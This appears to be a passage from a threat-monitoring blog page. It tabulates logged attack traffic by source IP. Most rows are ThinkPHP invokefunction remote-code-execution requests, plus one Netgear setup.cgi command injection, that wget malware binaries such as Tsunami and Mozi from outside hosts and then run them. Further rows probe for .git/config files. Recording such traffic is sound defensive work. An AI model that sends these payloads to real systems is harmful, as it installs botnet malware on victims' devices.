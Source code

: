 | 31.189.132.161  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1    |
| 58.242.106.187  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |
| 1.162.204.229   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1      |
| 222.137.2.57    | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://222.137.2.57:34292/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                    |
| 175.182.207.63  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1      |
| 58.58.30.134    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |
| 90.214.52.113   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1    |
| 124.150.45.204  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1    |
| 220.170.80.79   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |
| 184.68.59.78    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1    |
| 140.207.30.37   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |
| 88.247.162.58   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'rm -rf bejv86; wget http://176.65.134.201/bejv86 -O /tmp/.Aqua; chmod 777 /tmp/.Aqua; /tmp/.Aqua thinkphp.selfrep' HTTP/1.1 |
| 1.174.21.177    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1      |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                              |
|----:|----------------------:|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|   7 |                    13 | \x04\x01\x01\xBB\x00\x00\x00\x01proxychecker\x00pro.ip-api.com\x00                                                                                                                                                                                                                                                                                   |
|   9 |                    13 | CONNECT pro.ip-api.com:443 HTTP/1.1                                                                                                                                                                                                                                                                                                                  |
| 141 |                     3 | GET /_media/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                     |
| 142 |                     3 | GET /.vscode/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                    |